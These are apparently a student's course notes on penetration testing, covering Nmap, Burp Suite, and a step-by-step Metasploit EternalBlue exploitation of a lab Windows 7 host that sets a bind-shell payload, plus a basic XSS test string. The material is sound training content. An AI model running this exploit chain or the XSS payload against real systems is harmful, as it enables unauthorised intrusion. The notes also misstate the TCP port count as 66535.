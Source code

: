 <!---DOC:Secarma Pentesting notes;Notes that I took while at the pentesting course;Sean Lewis-->
# Secarma Pentesting fun times

## Introduction

We'll be getting the slides after the 3 sessions.

## Day 1

### Basics

Laws:

* Incredibly vague to cover more ground
  - It is illegal to connect to someone's wifi, technically your connection is logged which is "unauthorised access to computer material."

KALI LINUX:

* Information security professionals platform of choice
* Debatable whether it is good or not?
* Built upon Debian Linux, real damn stable.
* Covering three tools:
  - Nmap - networks
  - Burpsuite - web applications
  - Metasploit - a lot, for now servers

Burpsuite:

* Java based
* Can be done manually or automatically
* Used to enumerate, scan and attack web applications.

Transmission Control Protocol (TCP):

* Operates at level 4 OSI model
* Reliable for the transfer of data


User Datagram Protocol (UDP):

* Also operates at level 4 OSI model
* Connectionless - no guarantee that data will arrive at its destination
* Often used for VOIP

Common ports:

* 80: HTTP
* 443: HTTPS
* 21: FTP (but technically the connection part of it?)

OSI model:

* 7) Application
* 6) Presentation
* 5) Session
* 4) Transport
* 3) Network
* 2) Data Link
* 1) Physical

NMAP:

* Free and open source
* Used to determine what hosts are on a network, what services they run and what ports are open.
* Some command line switches:
  - -v Verbose.
  - -p Scans all 66535 TCP ports.
  - -sC Performs a script scan using a default set of scripts from the nmap scripting engine (NSE).
  - -sV Performs a version scan of the open ports that nmap discovers.
  - -oA
* NMAP scripting engine
  - Allows users to write and share simple scripts to automate a wide variety of networking tasks.
  - We can gather more sophisticated version detection, vulnerability detection and in some cases we can even use them for vulnerability exploitation.
  - Has the extension `'.nse'` located at `/usr/share/nmap/scripts` in KALI.

```bash
# Example commands!

# Scan range 0/24 all ports including 0
nmap -p- 10.0.6.0/24

# Scan range 0/24 all ports excluding 0
nmap -p0- 10.0.6.0/24
```

### NMAP Exploit!

First, I needed to gather some information on the target system. For me, the IP address was `10.0.6.46`.

```bash
nmap -Pn -sTV -A 10.0.6.46
```

This returned the specific version of Windows, so literally appending "exploit" to the verison it gave `Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)`.

This lead to this link: https://www.exploit-db.com/exploits/42315/

I took the name of the exploit, and searched for it with metasploit: _"metasploit eternalblue"_. This gave instructions for using metasploit! https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue.

I ran `msfconsole` to open Metasploit. The website that had instructions gave the correct explit to load:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

This will set up the exploit. From here you can view the options:

```bash
show options
```

It will list all of the options, their current values and whether they are required for the exploit. One required option will be missing, `RHOST`. Set this to the target server with the following command:

```bash
set RHOST 10.0.6.46
```

Now we will need to select the payload. The exploit will get us access to the system, but we will need to execute something while we are there. You can view all of the available payloads for the exploit using:

```bash
show payloads
```

I wanted access to a command shell, so I used the following command to select it:

```bash
set payload generic/shell_bind_tcp
```

If this exploit supported checking, we could have ran a command that would have checked if it would be successful. The command would have been:

```bash
check
```

If it is attempted with the current exploit and payload, it will just display `This module does not support check`.

To execute the exploit, you can run either of these two commands:

* The normal, less to type way `run`
* The cooler sounding way `exploit`

There will be a lot of output, but if it was successful typing `dir` and pressing enter should display the directory on the Windows machine. There you have it, you are officially a `H A C K E R  M A N`.

### Web 101

Forced browsing:

* Some good options:
  - Dirbuster: not too great
    - Available on Kali.
    - Wordlist location in kali is `/usr/share/wordlists`.

Don't leak info:

* A default 404 page can leak information on what the system is
* Bad error messages can leak database schema/SQL version

XSS:

* Three types:
  * Reflected XSS
    - URL
  * Stored XSS
    - Hits everybody
  * DOM XSS
*  Modern browsers will strip bad JavaScript, prevent XSS.
  - This will not help older browsers/systems.
* Initial testing to see if XSS works:

```html
<script>alert(1)</script>
```

SQL Injection:

* One of the oldest and most prevalent vulnerabilities.
* It impacts:
  - Confidentiality
  - Integrity
  - Availability


## Day 2

## Day 3
